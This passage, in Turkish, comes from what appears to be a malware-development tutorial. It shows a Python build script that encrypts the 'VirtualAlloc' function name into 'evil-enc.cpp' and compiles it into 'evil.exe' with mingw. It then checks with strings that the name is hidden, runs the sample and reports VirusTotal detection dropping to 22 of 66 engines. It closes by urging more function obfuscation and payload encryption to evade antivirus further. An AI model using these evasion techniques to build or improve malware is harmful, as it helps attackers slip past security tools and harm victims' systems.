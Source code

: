 ```python
data = data.replace('unsigned char cVirtualAlloc[] = { };', 
'unsigned char cVirtualAlloc[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp"
    cmd += " -o evil.exe -s -ffunction-sections"
    cmd += " -fdata-sections -Wno-write-strings"
    cmd += " -fno-exceptions -fmerge-all-constants"
    cmd += " -static-libstdc++ -static-libgcc"
    cmd += " >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")
```

Derleyelim ve control edelim:    

```bash
strings -n 8 evil.exe | grep "Virtual"
```

![strings virtual](./images/3/2021-09-06_18-49.png){width="80%"}    

Ve gördüğünüz gibi, artık strings kontrolünde `VirtualAlloc` yok. İşte aslında kodunuzdaki herhangi bir fonksiyonu nasıl obfuscate edebileceğiniz. Bu `VirtualProtect` veya `RtlMoveMemory` gibi fonksiyonlar olabilir.    

Çalıştıralım:    

![calc](./images/3/2021-09-07_00-54.png){width="80%"}    

her şey doğru.    

Haydi `evil.exe`'mizi virustotal'a yükleyelim:     

![virustotal](./images/3/2021-09-07_01-01.png){width="80%"}    

[https://www.virustotal.com/gui/file/bf21d0af617f1bad81ea178963d70602340d85145b96aba330018259bd02fe56/detection](https://www.virustotal.com/gui/file/bf21d0af617f1bad81ea178963d70602340d85145b96aba330018259bd02fe56/detection)

**Yani, 66 antivirüs motorunun 22'si dosyamızı kötü amaçlı olarak tespit ediyor**

Diğer fonksiyonlar da obfuscate edilerek antivirüs motorlarının dosyamızı tespit etme sayısını azaltabiliriz.     
Daha iyi sonuçlar için payload şifrelemesi, rastgele anahtarlarla ve fonksiyonları başka anahtarlarla obfuscate etmek gibi yöntemler birleştirilebilir.    

